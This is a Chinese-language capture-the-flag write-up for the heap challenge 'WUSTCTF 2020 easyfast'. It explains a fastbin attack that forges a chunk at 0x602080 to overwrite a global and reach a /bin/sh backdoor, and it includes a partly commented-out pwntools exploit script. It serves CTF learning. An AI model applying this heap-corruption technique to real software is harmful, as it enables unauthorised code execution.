





# [WUSTCTF 2020]easyfast



这里还是一些常规的保护因此看ida反编译的



并且在sub_400896的位置发现了binsh





因此我们的第一想法是把qword的位置改为0就可以了

所以我们的思路是

通过fastbin把这个位置当成fd来申请出来



并且发现刚好有一个0x50的一个值且在0x602088的位置因此可以把这个位置当成size

所以我们要申请的是0x40大小的堆块当他free以后就可以放到0x50的fastbin中

因此我们的exp为

```python
from pwn import *

# io = remote("node5.anna.nssctf.cn",22120)
io = process("/home/fofa/service")
def addr_chunk(size):
    io.sendlineafter("choice>",'1')
    io.sendlineafter("size>",str(size))
def free_chunk(idx):
    io.sendlineafter("choice>\n",'2')
    io.sendlineafter("index>\n",str(idx))
def edit_chunk(idx,data):
    io.sendlineafter(b'choice>\n', b'3')
    io.sendlineafter(b'index>\n', str(idx))
    io.sendline(data)

def backdoor():
    io.sendlineafter('choice>\n', b'4')

addr_chunk(0x40)#0
addr_chunk(0x40)#1
free_chunk(0)
free_chunk(1)
edit_chunk(1,p64(0x602080))
# addr_chunk(0x40)#1
# addr_chunk(0x40)#2
# edit_chunk(3,p64(0))
gdb.attach(io)
# backdoor()
io.interactive()
```

